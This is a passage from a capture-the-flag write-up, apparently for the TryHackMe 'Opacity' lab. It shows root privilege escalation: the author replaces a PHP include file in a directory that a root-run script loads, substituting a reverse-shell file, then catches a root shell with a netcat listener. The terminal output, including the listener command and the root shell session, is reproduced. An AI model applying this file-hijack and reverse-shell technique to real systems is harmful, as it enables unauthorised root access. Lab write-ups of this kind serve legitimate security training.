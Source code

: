 The content of the lib directory:
```
sysadmin@opacity:~/scripts$ ls -la lib
total 132
drwxr-xr-x 2 sysadmin root  4096 Jul 26  2022 .
drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
-rw-r--r-- 1 root     root  9458 Jul 26  2022 application.php
-rw-r--r-- 1 root     root   967 Jul  6  2022 backup.inc.php
-rw-r--r-- 1 root     root 24514 Jul 26  2022 bio2rdfapi.php
-rw-r--r-- 1 root     root 11222 Jul 26  2022 biopax2bio2rdf.php
-rw-r--r-- 1 root     root  7595 Jul 26  2022 dataresource.php
-rw-r--r-- 1 root     root  4828 Jul 26  2022 dataset.php
-rw-r--r-- 1 root     root  3243 Jul 26  2022 fileapi.php
-rw-r--r-- 1 root     root  1325 Jul 26  2022 owlapi.php
-rw-r--r-- 1 root     root  1465 Jul 26  2022 phplib.php
-rw-r--r-- 1 root     root 10548 Jul 26  2022 rdfapi.php
-rw-r--r-- 1 root     root 16469 Jul 26  2022 registry.php
-rw-r--r-- 1 root     root  6862 Jul 26  2022 utils.php
-rwxr-xr-x 1 root     root  3921 Jul 26  2022 xmlapi.php
```

The script.php file requires the lib/backup.inc.php file. So, I thought if I could alter the content of the backup.inc.php file, I could get a reverse shell. But I only have the read access to the file.

I was repeatedly doing ls -l, dunno why until I noticed and realised:
```
sysadmin@opacity:~/scripts$ ls -l
total 8
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```
The lib subdirectory is owned by sysadmin, so even if I cannot read the backup.inc.php, I can replace it as I(sysadmin) have permission to do that.

So, I created a new file with the name backup.inc.php in the sysadmin directory and deleted the one inside the lib directory. Then I copied the new file with the PHP reverse shell content inside the lib directory.
```
sysadmin@opacity:~/scripts$ rm lib/backup.inc.php 
rm: remove write-protected regular file 'lib/backup.inc.php'? y
sysadmin@opacity:~/scripts$ ls lib
application.php  biopax2bio2rdf.php  dataset.php  owlapi.php  rdfapi.php    utils.php
bio2rdfapi.php   dataresource.php    fileapi.php  phplib.php  registry.php  xmlapi.php
sysadmin@opacity:~/scripts$ cd /home/sysadmin/
sysadmin@opacity:~$ nano backup.inc.php
sysadmin@opacity:~$ cp backup.inc.php scripts/lib/
sysadmin@opacity:~$
```

Opened a listener using Netcat and then:
```
┌──(kali㉿kali)-[~/Desktop/THM/Opacity]
└─$ nc -nlvp 4444         
listening on [any] 4444 ...
connect to [10.17.94.32] from (UNKNOWN) [10.10.214.180] 49410
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 12:39:01 up  1:19,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sysadmin pts/0    10.17.94.32      12:27   13.00s  0.12s  0.12s -bash
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```